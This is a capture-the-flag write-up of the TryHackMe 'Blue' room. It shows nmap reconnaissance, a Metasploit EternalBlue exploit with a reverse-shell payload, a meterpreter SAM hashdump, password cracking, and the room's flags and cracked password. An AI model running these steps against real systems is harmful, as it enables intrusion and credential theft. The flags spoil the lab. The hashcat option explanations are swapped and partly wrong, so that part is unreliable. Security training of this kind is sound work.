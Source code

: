 #Blue

Author: Corbett Stephens July 14, 2021

Blue is a TryHackMe room that explored the "Eternal Blue" exploit from older versions of windows. 

Room: https://tryhackme.com/room/blue

------------------------------------------------------------------------------------------------

I will be attempting to root this machine from the stand-point that I do not know that this is an eternal blue exploit.

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

> sudo openvpn <file>

#Reconnaissance
>10.10.48.230

First thing I do is to ping the host to see if we can get an explicit response.

>ping 10.10.48.230

PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms

We can see that the host is up so now we can start with a nmap scan

nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap

"-p0-1000" scans the first 1000 ports
"-sC" uses the default script for enumeration
"-sV" tries to specify versions
"-vv" extra verbosity
"-oN initial.nmap" writes the output to the file initial.nmap

Looking at the output we can see that three ports are open

PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

We also ge the name of a potential user: Jon

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan but I decided to partition it into two seperate scans.

I'm going to use the same command but chagne the script to "vuln"

nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap

Luckily, the results yield some intersting information.

| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).

Do to our vuln script we can see that this system is vulnerable to smb-vuln-ms17-010 which is a remote code execution vulnerability.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the article we can see that ms17-010 is also known as "EternalBlue". https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html

#Gaining Access

We now want to try to gain futher access of this machine. We have a potential attack vector with EternalBlue. For someone that doesn't know the first step in using the EternalBlue exploit, use your favorite search engine to look for a starting position.

Fire up Metasploit!

In Kali Linux, you can do this by searching metasploit in the home bar and then typing in your sudo password. Otherwise, you'll want run "sudo msfdb init && msfconsole"

Once the metasploit shell is spawned the fun can begin.

Since my initial attack vector consists of EternalBlue, then I will look for a module that will allow me to use it.

This can be done via:
"search eternalblue" 

The module we want is "exploit/windows/smb/ms17_010_eternalblue" because this uses windows versions prior to windows 8

**PICTURE**

An easy way to select the module you want to use is to enter "use <number>" so we would enter "use 2"

We want to know the required fields for this module. This can be done by entering the command "options". This will allows us to see some important information.

**Picture**

We need to set the RHOSTS which is the target host that we are attacking. We do this by entering:

"set RHOSTS 10.10.48.230"

The playload we want to use is the "windows/x64/shell/reverse_tcp"

We can set this as the payload by doing "set payload windows/x64/shell/reverse_tcp"

To run the exploit we can simply enter "exploit"

If the exploit is successful then a DOS (disk operationg system) will appear. 

If we run "whoami" it tells us that we are "nt authority\system"

We want upgrade this shell to a meterprerter shell. Background the current shell by doing "CTRL + Z". I used this article to help upgrade my shell https://www.hackingarticles.in/command-shell-to-meterpreter/ 


I used "sessions -u 1"

**PICTURE**

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". This is shown below.

**PICTURE**

Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the "hashdump" command we can get this data and try to make something useful with it.

We get the following data:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

In this case, we are interested in Jon. I created a file named "jon_hash.txt" and put the hash values into the file. I decided that the long string of data was two 32 character hash strings and put them on seperate lines. To crack this hash, I used hashcat. I ran the following command. 

hashcat -m 0 -a 0 jon_hash.txt ./rockyou.txt --show

"-m 0" straight mode
"-a 0" MD5
"jon_hash.txt" hash file
"./rockyou.txt" dictionary
"--show" show results

john jon.hash --format=NT --wordlist=./rockyou.txt
john jon.hash --format=NT --show
Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

password:alqfna22

#Task 5: Find Flags!

The first flag can be found by 'cd \' and then type 'flag1.txt'

Flag 1: flag{access_the_machine}

The second flag is found in config
C:\Windows\system32\config
"cat flag2.txt"

Flag 2: flag{sam_database_elevated_access}

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: flag{admin_documents_can_be_valuable}
